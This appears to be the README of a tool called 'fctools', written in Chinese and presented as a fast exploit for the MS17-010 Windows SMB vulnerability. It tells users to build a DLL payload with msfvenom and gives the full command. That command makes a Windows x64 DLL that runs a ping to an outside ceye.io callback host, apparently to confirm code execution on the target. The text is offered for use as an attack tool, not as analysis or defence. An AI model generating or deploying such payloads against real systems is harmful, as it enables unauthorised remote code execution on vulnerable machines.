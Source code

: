 ## fctools
一款MS17-010漏洞快速利用软件
## 使用说明
使用msf生成dll，修改名称为x64.dll或者x86.dll
## 生成方法
```
msfvenom -p windows/x64/exec CMD="ping ****.ceye.io" EXITFUNC=process -f dll > /Users/Nibeshe/Desktop/x64.dll
```
